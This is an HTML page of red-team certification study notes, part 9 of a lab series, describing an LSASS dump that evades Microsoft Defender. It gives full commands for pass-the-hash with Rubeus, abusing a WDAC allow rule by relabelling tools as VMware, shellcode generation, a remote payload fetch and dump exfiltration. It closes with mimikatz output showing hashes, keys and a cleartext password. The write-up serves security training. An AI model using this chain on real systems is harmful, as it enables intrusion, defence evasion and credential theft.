

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>CRTE Part 9 - LSASS Attack With MDE Bypass | Mr Stark Study Notes</title>
  <link rel="shortcut icon" href="../assets/images/logo.ico" type="image/x-icon">
  <link rel="stylesheet" href="../assets/css/style.css">
  <link rel="preconnect" href="https://fonts.googleapis.com">
  <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
  <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;500;600&display=swap" rel="stylesheet">
  <style>
    .goad-content {
      max-width: 100%;
      margin: 0 auto;
      padding: 30px;
      font-size: 20px;
    }
    .goad-content h1 {
      color: var(--white-2);
      font-size: 36px;
      margin-bottom: 25px;
    }
    .goad-content h2 {
      color: var(--orange-yellow-crayola);
      font-size: 30px;
      margin: 35px 0 20px 0;
      padding-bottom: 10px;
      border-bottom: 1px solid var(--jet);
    }
    .goad-content h3 {
      color: var(--white-1);
      font-size: 26px;
      margin: 30px 0 15px 0;
    }
    .goad-content h4 {
      color: var(--white-2);
      font-size: 24px;
      margin: 25px 0 15px 0;
    }
    .goad-content p {
      color: var(--light-gray);
      margin-bottom: 18px;
      line-height: 1.8;
      font-size: 20px;
      word-wrap: break-word;
      overflow-wrap: break-word;
    }
    .goad-content code {
      background: var(--onyx);
      color: var(--orange-yellow-crayola);
      padding: 3px 8px;
      border-radius: 4px;
      font-family: 'Courier New', monospace;
      font-size: 18px;
    }
    .goad-content pre {
      background: var(--eerie-black-2);
      border: 1px solid var(--jet);
      border-radius: 8px;
      padding: 20px;
      overflow-x: auto;
      margin: 20px 0;
    }
    .goad-content pre code {
      background: transparent;
      color: var(--light-gray);
      padding: 0;
      font-size: 18px;
    }
    .goad-content ul, .goad-content ol {
      margin: 20px 0;
      padding-left: 30px;
    }
    .goad-content li {
      color: var(--light-gray);
      margin-bottom: 10px;
      font-size: 20px;
      line-height: 1.8;
    }
    .goad-content img {
      max-width: 100%;
      border-radius: 8px;
      margin: 25px 0;
      border: 1px solid var(--jet);
    }
    .goad-content blockquote {
      border-left: 4px solid var(--orange-yellow-crayola);
      padding-left: 20px;
      margin: 20px 0;
      color: var(--light-gray-70);
    }
    .goad-content hr {
      border: none;
      border-top: 1px solid var(--jet);
      margin: 40px 0;
    }
    .part-navigation {
      display: flex;
      justify-content: space-between;
      margin-top: 50px;
      padding-top: 30px;
      border-top: 1px solid var(--jet);
    }
    .part-navigation a {
      color: var(--orange-yellow-crayola);
      text-decoration: none;
      font-size: 18px;
      display: flex;
      align-items: center;
      gap: 8px;
    }
    .part-navigation a:hover {
      text-decoration: underline;
    }
    .goad-sidebar-list {
      list-style: none;
      padding: 0;
      margin: 0;
    }
    .goad-sidebar-list li {
      margin-bottom: 8px;
    }
    .goad-sidebar-list a {
      color: var(--light-gray);
      text-decoration: none;
      font-size: 14px;
      display: block;
      padding: 5px 0;
      transition: color 0.25s ease;
    }
    .goad-sidebar-list a:hover {
      color: var(--orange-yellow-crayola);
    }
    .back-link {
      display: flex;
      align-items: center;
      gap: 8px;
      color: var(--orange-yellow-crayola);
      text-decoration: none;
      font-size: 14px;
      margin-bottom: 15px;
    }
  </style>
</head>
<body>
  <main>
    <aside class="sidebar" data-sidebar>
      <div class="sidebar-info">
        <figure class="avatar-box">
          
        </figure>
        <div class="info-content">
          <h1 class="name" title="Mr Stark">Mr Stark</h1>
          <p class="title">CRTE Series</p>
        </div>
        <button class="info_more-btn" data-sidebar-btn>
          <span>Show Parts</span>
          <ion-icon name="chevron-down"></ion-icon>
        </button>
      </div>
      <div class="sidebar-info_more">
        <div class="separator"></div>
        <a href="../index.html" class="back-link">
          <ion-icon name="arrow-back-outline"></ion-icon>
          Back to Portfolio
        </a>
        <div class="separator"></div>
        <p style="color: var(--light-gray); font-size: var(--fs-7); margin-bottom: 10px;">Jump to Part:</p>
        <ul class="goad-sidebar-list">
<li><a href="part-01-introduction.html">Part 1: Introduction</a></li>
<li><a href="part-02-enumeration.html">Part 2: Enumeration</a></li>
<li><a href="part-03-privilege-escalation.html">Part 3: Privilege Escalation</a></li>
<li><a href="part-04-kerberoasting-attack.html">Part 4: Kerberoasting attack</a></li>
<li><a href="part-05-privilege-escalation-targeted-kerberoasting.html">Part 5: Privilege Escalation - Targeted Ker...</a></li>
<li><a href="part-06-privilege-escalation-laps-local-administrator-pass.html">Part 6: Privilege Escalation - LAPS (Local ...</a></li>
<li><a href="part-07-dumping-lsass-credentials.html">Part 7: Dumping LSASS Credentials</a></li>
<li><a href="part-08-privilege-escalation-gmsa-attack.html">Part 8: Privilege Escalation - gMSA Attack</a></li>
<li><a href="part-09-lsass-attack-with-mde-bypass.html" style="color: var(--orange-yellow-crayola);">Part 9: LSASS Attack With MDE Bypass</a></li>
<li><a href="part-10-pass-the-certificates-attack.html">Part 10: Pass The Certificates Attack</a></li>
<li><a href="part-11-privilege-escalation-unconstrained-delegation.html">Part 11: Privilege Escalation - Unconstraine...</a></li>
<li><a href="part-12-privilege-escalation-constrained-delegation.html">Part 12: Privilege Escalation - Constrained ...</a></li>
<li><a href="part-13-privilege-escalation-rbcdresource-based-constraine.html">Part 13: Privilege Escalation - RBCD(Resourc...</a></li>
<li><a href="part-14-domain-persistence-golden-ticket-attack.html">Part 14: Domain Persistence - Golden Ticket ...</a></li>
<li><a href="part-15-domain-persistence-silver-ticket-attack.html">Part 15: Domain Persistence - Silver Ticket ...</a></li>
<li><a href="part-16-domain-persistence-diamond-ticket-attack.html">Part 16: Domain Persistence - Diamond Ticket...</a></li>
<li><a href="part-17-domain-persistence-skeleton-key-attack.html">Part 17: Domain Persistence - Skeleton Key A...</a></li>
<li><a href="part-18-domain-persistence-sapphire-ticket-attack.html">Part 18: Domain Persistence - Sapphire Ticke...</a></li>
<li><a href="part-19-domain-persistence-adminsdholder-attack.html">Part 19: Domain Persistence - AdminSDHolder ...</a></li>
<li><a href="part-20-cross-domain-attacks-active-directory-certificate.html">Part 20: Cross Domain Attacks - Active Direc...</a></li>
<li><a href="part-21-shadow-credentials-abusing-user-object.html">Part 21: Shadow Credentials - Abusing User O...</a></li>
<li><a href="part-22-cross-domain-attacks-unconstrained-delegation-to-e.html">Part 22: Cross Domain Attacks - Unconstraine...</a></li>
<li><a href="part-23-cross-domain-attacks-attacking-azure-ad-integratio.html">Part 23: Cross Domain Attacks - Attacking Az...</a></li>
<li><a href="part-24-cross-domain-attacks-child-to-forest-root-sid-hist.html">Part 24: Cross Domain attacks - Child To For...</a></li>
<li><a href="part-25-cross-domain-attacks-child-to-forest-root-sid-hist.html">Part 25: Cross Domain attacks - Child To For...</a></li>
<li><a href="part-26-cross-forest-attacks-kerberoast-attack.html">Part 26: Cross Forest Attacks - Kerberoast A...</a></li>
<li><a href="part-27-cross-forest-attacks-constrained-delegation-with-p.html">Part 27: Cross Forest Attacks - Constrained ...</a></li>
<li><a href="part-28-cross-forest-attacks-unconstrained-delegation.html">Part 28: Cross Forest Attacks - Unconstraine...</a></li>
<li><a href="part-29-cross-forest-attacks-trust-key-abuse-to-access-exp.html">Part 29: Cross Forest Attacks - Trust Key Ab...</a></li>
<li><a href="part-30-cross-forest-attacks-injecting-sid-history-to-bypa.html">Part 30: Cross Forest Attacks - Injecting SI...</a></li>
<li><a href="part-31-trust-abuse-mssql-servers-database-links.html">Part 31: Trust Abuse - MSSQL Servers - Datab...</a></li>
<li><a href="part-32-cross-forest-attacks-foreign-security-principals-a.html">Part 32: Cross Forest Attacks - Foreign Secu...</a></li>
<li><a href="part-33-cross-forest-attacks-abusing-pamprivileged-managem.html">Part 33: Cross Forest Attacks - Abusing PAM(...</a></li>
<li><a href="part-34-cross-forest-attacks-trusting-to-trusted-trust-key.html">Part 34: Cross Forest Attacks - Trusting to ...</a></li>
<li><a href="part-35-cross-forest-attacks-abusing-trust-transitivity.html">Part 35: Cross Forest Attacks - Abusing Trus...</a></li>
        </ul>
        <div class="separator"></div>
        <ul class="social-list">
          <li class="social-item">
            <a href="https://github.com/daviosardinha/mr-stark-study-notes" class="social-link" target="_blank">
              <ion-icon name="logo-github"></ion-icon>
            </a>
          </li>
        </ul>
      </div>
    </aside>
    <div class="main-content">
      <article class="about active" data-page="about">
        <div class="goad-content">
<h1>CRTE - Certified Red Team Expert</h1>

<h2>LSASS Attack With MDE Bypass</h2>

Microsoft Defender for Endpoint (MDE) is a critical component of modern enterprise security, designed to detect, investigate, and respond to advanced threats. For Red Teams, bypassing MDE is often essential to simulate realistic attack scenarios and test an organization’s ability to defend against sophisticated adversaries. Below is a structured overview of the key topics and the importance of MDE bypass in Red Team operations.
<h3>How MDE Works and Why Bypassing It Matters</h3>

MDE employs a combination of signature-based detection, behavioral analysis, machine learning, and cloud-powered telemetry to identify malicious activity. It monitors processes, file modifications, network traffic, and user behavior to flag anomalies. For Red Teams, bypassing these mechanisms is not about "breaking" the tool but understanding its detection logic to avoid triggering alerts. This is crucial because real-world attackers constantly evolve their tactics to evade detection, and Red Teams must replicate this behavior to provide actionable insights into an organization’s defensive gaps.
<h3>Key Techniques for Bypassing MDE</h3>

<ol>
<li>Obfuscation and Encryption:</li>
<li>Living-off-the-Land Binaries (LOLBins):</li>
<li>Process Injection and Memory Manipulation:</li>
<li>Disabling or Degrading MDE:</li>
<li>Abusing Trusted Certificates or Applications:</li>
</ol>
<h3>Why Bypassing MDE is Critical in Red Team Engagements</h3>

<ol>
<li>Realistic Simulation of Advanced Threats:</li>
<li>Identifying Detection Gaps:</li>
<li>Testing Incident Response (IR) Readiness:</li>
<li>Validating Security Investments:</li>
</ol>
<h3>Challenges and Ethical Considerations</h3>

Bypassing MDE is a cat-and-mouse game. Microsoft continuously updates its algorithms, cloud analytics, and threat intelligence, so techniques that work today may fail tomorrow. Red Teams must stay updated on the latest bypass methods while adhering to ethical boundaries—for example, avoiding destructive actions or unauthorized data access during engagements.
<h3>Final Takeaways</h3>

<ul>
<li>Bypassing MDE is not about "winning": It’s about testing defenses, improving resilience, and aligning security posture with real-world threats.</li>
<li>Context matters: The importance of bypassing MDE depends on the engagement’s scope. For example, a phishing simulation might not require full MDE evasion, but a full-chain attack simulation likely will.</li>
<li>Collaboration is key: Red Teams should work with Blue Teams to turn bypass findings into actionable improvements, fostering a culture of continuous security enhancement.</li>
</ul>
By mastering MDE bypass techniques, Red Teams provide immense value to organizations, ensuring defenses are tested, refined, and ready to face evolving threats.

<h1>Enumerating MDE</h1>

<p>We can enumerate if we do have MDE/EDR enabled on our target environment by executing Invoke-EDRChecker script.
Invoke-EDRChecker is a script in PowerShell that will check running processes, process metadata, Dlls loaded into your current process and the each DLLs metadata, common install directories, installed services, the registry and running drivers for the presence of known defensive products such as AV's, EDR's and logging tools.
This script can be loaded into your C2 server as well for example in PoshC2, place the script into your modules directory, load the module then run it. Note: this script is now included in PoshC2 so no need to manually add it.
The script also has capacity to perform checks against remote targets if you have the privileges to do so, these checks are presently limited however to process checking, common install directories and installed services.</p>

Let’s start by elevating our CMD session as our target user and we will be using Rubeus.exe from memory for OpSec by requesting our target’s TGT.
Let’s start CMD with Administrator privilege.
Now let’s run our Argsplit.bat file to encode our argument asktgt.
ArgSplit.bat


<p>Always remember that we do need to copy/paste the generated encoded into our CMD session.</p>

Let’s now use Loader.exe to execute Rubeus.exe in the memory and request for jumpone TGT and open a new session as jumone user.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:jumpone /rc4:95c0e0ce52fd24b2a3ac0eb8a67c1d56 /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt


<p>In the command above, we use the /force flag because we are using /opsec flag with /rce4 instead of  AES256 keys.
This command uses Loader.exe to execute Rubeus.exe in-memory with the goal of authenticating as the user jumpone by leveraging its RC4-HMAC key (95c0e0ce52fd24b2a3ac0eb8a67c1d56). 
The process is stealthy (/opsec) and forces execution (/force) while creating a cmd.exe process in netonly mode to ensure only network authentication uses the supplied credentials. 
The /ptt flag injects a Kerberos ticket directly, allowing immediate access to network resources as jumpone.</p>

Now that we were able to leverage our session as jumpone, let’s check if our user has local privileges access on any host inside our target domain. We will achieve this task using Find-PSRemotingAdminAccess script.
Import-Module C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose


<p>We can see above that we do have Local Admin access into US-JUMP machine in us.techcorp.local domain.</p>

I also did the same check using Find-LocalAdminAccess from PowerView module, but I did not get the same result. PowerView was not able to bring us a single machine where jumpone use has LocalAdmin access.


Check the several reasons why we do have this behaviour and we should always pay attention to that.
<h3>Key Differences</h3>

<ol>
<li>Find-PSRemotingLocalAdminAccess:</li>
<li>Find-LocalAdminAccess (PowerView):</li>
</ol>

Now that we do know that we have Local Admin Access on US-JUMP machine with our user jumpone, let’s run Invoke-EDRChecker to enumerate MDE/EDR.
Import-Module .\Invoke-EDRChecker.ps1
Invoke-EDRChecker -Remote -ComputerName 'US-Jump'


<p>We can see above that our target machine has MDE enabled, it’s using Microsoft Windows Defender.</p>

Let’s now access our target machine that we have Local Admin Access and we just did an MDE enumeration, using WinRS. Since we are already on a session with our user jumpone.
winrs -r:US-Jump cmd


<p>We can see that we are inside our target host US-Jump. To avoid detection using commonly used lolbas such as whoami.exe, we can use the set username and set computername
command to enumerate our current user using environment variables.</p>

Let’s now gather information about Windows Defender Application Control (WDAC) and Device Guard on our target host US-Jump. Let’s exit the target host back to our jumpone session and we will use WinRS to accomplish that task remotelly from our attacking host.
winrs -r:US-Jump "powershell Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard"


<h3>Property Explanations</h3>

<ol>
<li>AvailableSecurityProperties:</li>
<li>CodeIntegrityPolicyEnforcementStatus:</li>
<li>InstanceIdentifier:</li>
<li>RequiredSecurityProperties:</li>
<li>SecurityServicesConfigured:</li>
<li>SecurityServicesRunning:</li>
<li>UsermodeCodeIntegrityPolicyEnforcementStatus:</li>
<li>Version:</li>
<li>VirtualizationBasedSecurityStatus:</li>
<li>VirtualMachineIsolation:</li>
<li>VirtualMachineIsolationProperties:</li>
<li>PSComputerName:</li>
</ol>
<h3>Summary of the Output</h3>

From the output, we can infer:
<ul>
<li>Certain security features are supported (HVCI, Secure Boot, DMA Protection, and VBS), but VBS is not currently enabled.</li>
<li>No specific security services are configured or actively running.</li>
<li>Code Integrity policies are enforced for user mode, but the overall configuration is minimal.</li>
<li>Virtual Machine Isolation is not enabled or configured.</li>
</ul>

Now that we have enumerated our WDAC configuration, let’s now attempt to copy and parse the WDAC config deployed on our target us-jump to find suitable bypasses and loopholes in the policy.
dir \\us-jumpX.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity


We can see above that we were able to find 2 policies named DG.bin.p7 / SiPolicy.p7b inside the CodeIntegrity folder. 
<blockquote>To confirm a WDAC policy deployed via Group Policy, we need to check the specific GPO's GUID path in the SYSVOL directory on the domain controller. Locate the Registry.pol file in the "Machine" subdirectory, then use the Parse-PolFile cmdlet to analyze it. This will help identify where the WDAC policy is deployed (either locally or on a remote share) and provide additional details.</blockquote>

<p>Let’s copy both binaries back to our attacking machine (our StudentVM)
copy \\us-jump.us.techcorp.local\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools</p>

On a new CMD using InvisiShell for a new PowerShell session let’s Invoke CIPolicyParser.ps1 script to parse the copied policy binary and convert it into .xml file.
Import-Module C:\AD\Tools\CIPolicyParser.ps1
ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml


Let’s now analyze this new converted DG.bin.xml policy XML file. We should navigate to this rule quickly by searching for the string: "Vmware".
This can be done via Powershell or via GUI. Let’s analyze the file via PowerShell.
Get-Content -Path “C:\AD\Tools\FG.bin.xml | Where-Object {$_ -Match "Vmware"}


The WDAC Rule We Exploit:
We found a rule in the file DG.bin.xml that says: “Any program or DLL with the product name ‘Vmware Workstation’ is allowed to run.” .
This rule is supposed to trust VMware software, but we’re going to abuse it to run our own tools.
Our Plan:
<ol>
<li>Edit Our Tools:</li>
<li>Bypass MDE:</li>
<li>Fix Dependency Issues:</li>
</ol>
Why This Works:
<ul>
<li>WDAC only checks the file’s metadata (like the “Product Name” field). If we set it to “Vmware Workstation”, WDAC assumes our tools are safe.</li>
<li>MDE struggles to detect mockingjay and nanodump because they work in memory and avoid common detection patterns.</li>
</ul>

Analogy:
Imagine WDAC is a bouncer who only checks ID badges. We forge badges labeled “Vmware Workstation” for ourselves and our tools. The bouncer lets us in, and once inside, we use hidden tools (mockingjay/nanodump) to quietly steal secrets (LSASS data) without alerting security (MDE).
Key Takeaway:
By editing file attributes to mimic trusted software and using stealthy techniques, we bypass both WDAC (rules) and MDE (detections). This lets us dump LSASS and extract sensitive data.
 C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\msvcp140.dll --set-version-string "ProductName" "Vmware Workstation"
 C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140.dll --set-version-string "ProductName" "Vmware Workstation"
 C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140_1.dll --set-version-string "ProductName" "Vmware Workstation"
 C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mockingjay.exe --set-version-string "ProductName" "Vmware Workstation"
 C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mscorlib.ni.dll --set-version-string "ProductName" "Vmware Workstation"


Now that we were able to modify our files, let’s compress them all.
Compress-Archive -Path C:\AD\Tools\mockingjay\msvcp140.dll,C:\AD\Tools\mockingjay\vcruntime140.dll,C:\AD\Tools\mockingjay\vcruntime140_1.dll,C:\AD\Tools\mockingjay\mockingjay.exe,C:\AD\Tools\mockingjay\mscorlib.ni.dll -DestinationPath "C:\AD\Tools\mockingjay\mockingjay.zip"


Now that we do have our modified mockingjay zipped. Let’s convert nanodump into compatible shellcode using donut along  with the args: spoof-callstack (-sc), fork LSASS process before dumping (-f) and output the dump to a file named nano.dmp (--write) to make it dump LSASS in a covert way.
<blockquote>NOTE: shellcode doesn't need to be edited using rcedit to bypass WDAC.</blockquote>

C:\AD\Tools\mockingjay\donut.exe -f 1 -p " -sc -f --write nano.dmp" -i C:\AD\Tools\mockingjay\nanodump.x64.exe -o C:\AD\Tools\mockingjay\nano.bin


<p>Amazing. we now have our mockingjay PoC and  nano.bin shellcode created.</p>

Before we use them, we can also use DefenderCheck.exe to check if both files are undetected by AV.
C:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\mockingjay.exe
C:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\nano.bin


<p>Amazing, none of them are detected by AV. Let’s now host our modified files on our attacking machines. Let’s make sure that Firewall is disabled so our hosting is not blocked.
I’ll be using HFS.exe to host the file. if you have python3 with http.server module as well if you have it on you attacking machine.</p>

Now, back to our process running with jumpone privileges, let’s map a driver to upload our 2 files into the target.
Since we already have a session as user jumpone, we can simply user net use without passing the username to map drive x.
net use x: \\US-Jump\C$\Users\Public


<p>Let’s now use XCOPY to transfer the file to our mapped x drive with has the path to C:\Users\Public on our target host US-Jump.</p>

echo F | xcopy C:\AD\Tools\mockingjay\mockingjay.zip x:mockingjay.zip


<p>The technique we used above to transfer file will avoid us using commonly abused binaries such as certutil for downloads, will result in a detection on MDE.</p>

Let’s now connect to our target host US-Jump and check our 2 uploaded files.


Our 2 needed files or on the target in dir C:\Users\Public so let’s now extract the contents from mockingjay.zip archive using tar and we can then attempt to dump the LSASS Invoking the nano.bin.
tar -xf C:\Users\Public\mockingjay.zip


We have extracted all the files we need.
C:\Users\Public\mockingjay.exe 192.168.100.163 "/nano.bin"


An LSASS dump file is written called nano.dmp with an invalid signature since a normal LSASS dump on disk could trigger an MDE detection. We will now exfiltrate this dump file, restore and parse it for
credentials.
Let’s now get back to our attacking machine and exfiltrate the nano.dmp file using XCOPY and clear x mapped drive. 
echo F | xcopy x:nano.dmp C:\AD\Tools\mockingjay\nano.dmp


net use x: /delete


We were able to copy nano.dmp back to our machine and also delete de x mapped drive. Finally let’s restore the exfiltrated dump signature and parse credentials using mimikatz.
C:\AD\Tools\mockingjay\restore_signature.exe C:\AD\Tools\mockingjay\nano.dmp


Now that we have restored the file, let’s extract the credential’s from the dump file. We will be using SafetyKatz to accomplish that. We should start by encoding our SafetyKatz argument (sekurlsa::minidump) with ArgSplit.bat file and copy/paste the encoded argument back to out CMD session.
ArgSplit.bat


<p>We can now run SafetyKatz.exe in the memory using Loader.exe and request for all the LSASS credentials on the nano.dmp file.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% C:\AD\Tools\mockingjay\nano.dmp" "sekurlsa::ekeys" "exit"
<pre><code>mimikatz(commandline) # sekurlsa::minidump C:\AD\Tools\mockingjay\nano.dmp
Switch to MINIDUMP : 'C:\AD\Tools\mockingjay\nano.dmp'</p>

<p>mimikatz(commandline) # sekurlsa::ekeys
Opening : 'C:\AD\Tools\mockingjay\nano.dmp' file for minidump...</p>

<p>Authentication Id : 0 ; 37358928 (00000000:023a0d50)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 7/21/2024 3:42:02 AM
SID               : S-1-5-90-0-3</p>

<em> Username : US-JUMP$
         </em> Domain   : us.techcorp.local
         <em> Password : @pEWg3"x<tk[Hk> E0D><code>?4v</code>zWs$[ULrZOAL$@k:g4y@%S.<code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)</em>. IT1V!lv-DKQf!57e
         <em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 85522 (00000000:00014e12)
Session           : Service from 0
User Name         : appsvc
Domain            : US
Logon Server      : US-DC
Logon Time        : 7/7/2024 2:08:19 AM
SID               : S-1-5-21-210670787-2521448726-163245708-4601</p>

</em> Username : appsvc
         <em> Domain   : US.TECHCORP.LOCAL
         </em> Password : Us$rT0AccessDBwithImpersonation
         <em> Key List :
           aes256_hmac       b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335
           aes128_hmac       14284e4b83fdf58132aa2da8c1b49592
           rc4_hmac_nt       1d49d390ac01d568f0ee9be82bb74d4c
           rc4_hmac_old      1d49d390ac01d568f0ee9be82bb74d4c
           rc4_md4           1d49d390ac01d568f0ee9be82bb74d4c
           rc4_hmac_nt_exp   1d49d390ac01d568f0ee9be82bb74d4c
           rc4_hmac_old_exp  1d49d390ac01d568f0ee9be82bb74d4c

<p>Authentication Id : 0 ; 24159 (00000000:00005e5f)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 7/7/2024 2:08:14 AM
SID               : S-1-5-96-0-1</p>

</em> Username : US-JUMP$
         <em> Domain   : us.techcorp.local
         </em> Password : @pEWg3"x<tk[Hk> E0D></code>?4v<code>zWs$[ULrZOAL$@k:g4y@%S.</code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)<em>. IT1V!lv-DKQf!57e
         </em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 24131 (00000000:00005e43)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 7/7/2024 2:08:14 AM
SID               : S-1-5-96-0-0</p>

<em> Username : US-JUMP$
         </em> Domain   : us.techcorp.local
         <em> Password : @pEWg3"x<tk[Hk> E0D><code>?4v</code>zWs$[ULrZOAL$@k:g4y@%S.<code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)</em>. IT1V!lv-DKQf!57e
         <em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 8846285 (00000000:0086fbcd)
Session           : RemoteInteractive from 2
User Name         : pawadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 7/7/2024 2:39:46 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1138</p>

</em> Username : pawadmin
         <em> Domain   : US.TECHCORP.LOCAL
         </em> Password : (null)
         <em> Key List :
           aes256_hmac       a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30
           rc4_hmac_nt       36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old      36ea28bfa97a992b5e85bd22485e8d52
           rc4_md4           36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_nt_exp   36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old_exp  36ea28bfa97a992b5e85bd22485e8d52

<p>Authentication Id : 0 ; 8845528 (00000000:0086f8d8)
Session           : RemoteInteractive from 2
User Name         : pawadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 7/7/2024 2:39:46 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1138</p>

</em> Username : pawadmin
         <em> Domain   : US.TECHCORP.LOCAL
         </em> Password : (null)
         <em> Key List :
           aes256_hmac       a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30
           rc4_hmac_nt       36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old      36ea28bfa97a992b5e85bd22485e8d52
           rc4_md4           36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_nt_exp   36ea28bfa97a992b5e85bd22485e8d52
           rc4_hmac_old_exp  36ea28bfa97a992b5e85bd22485e8d52

<p>Authentication Id : 0 ; 41592 (00000000:0000a278)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 7/7/2024 2:08:15 AM
SID               : S-1-5-90-0-1</p>

</em> Username : US-JUMP$
         <em> Domain   : us.techcorp.local
         </em> Password : @pEWg3"x<tk[Hk> E0D></code>?4v<code>zWs$[ULrZOAL$@k:g4y@%S.</code>s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)<em>. IT1V!lv-DKQf!57e
         </em> Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : US-JUMP$
Domain            : US
Logon Server      : (null)
Logon Time        : 7/7/2024 2:08:14 AM
SID               : S-1-5-18</p>

<em> Username : us-jump$
         </em> Domain   : US.TECHCORP.LOCAL
         <em> Password : (null)
         </em> Key List :
           aes256_hmac       88f63b9e6109aeab1c3d706a8345088659b9784614469099b65bac8fe011b277
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

<p>Authentication Id : 0 ; 37358898 (00000000:023a0d32)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 7/21/2024 3:42:02 AM
SID               : S-1-5-90-0-3</p>

<em> Username : US-JUMP$
         </em> Domain   : us.techcorp.local
